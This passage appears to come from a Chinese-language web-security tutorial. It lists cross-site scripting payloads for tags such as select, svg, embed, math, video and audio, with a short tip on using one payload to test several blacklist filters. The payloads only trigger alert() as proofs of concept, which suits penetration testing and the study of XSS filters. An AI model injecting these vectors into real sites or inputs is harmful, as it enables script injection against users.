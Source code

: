 * select标签
> `<select onfocus=javascript:alert(1) autofocus>`

* textarea标签
> `<textarea onfocus=javascript:alert(1) autofocus>`

* keygen标签
> `<keygen onfocus=javascript:alert(1) autofocus>`

* frameset标签
> 
```
<FRAMESET><FRAME SRC="javascript:alert(1);"></FRAMESET> 
<frameset onload=alert(1)>
```

* embed标签
> 
```
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4="></embed> //chrome 
<embed src=javascript:alert(1)> //firefox
```

* svg标签
>
```
<svg onload="javascript:alert(1)" xmlns="http://www.w3.org/2000/svg"></svg> 
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg>  //chrome有效
```

* math标签
>
```
<math href="javascript:javascript:alert(1)">CLICKME</math> 
<math><y/xlink:href=javascript:alert(51)>test1 
<math> <maction actiontype="statusline#http://wangnima.com" 
xlink:href="javascript:alert(49)">CLICKME</maction> </math>

```

* video标签
>
```
<video><source onerror="alert(1)"> 
<video src=x onerror=alert(48)>
```

* audio标签
>
```
<audio src=x onerror=alert(47)>
```
姿势的介绍就在这里结束了。
说句题外话 在这些标签里面凡是出现在on*事件值里面的javascript:都是多余的。但是这个对测试者来说是很方便的。因为你可以通过一个payload来测试好几个黑名单成员


# 示例
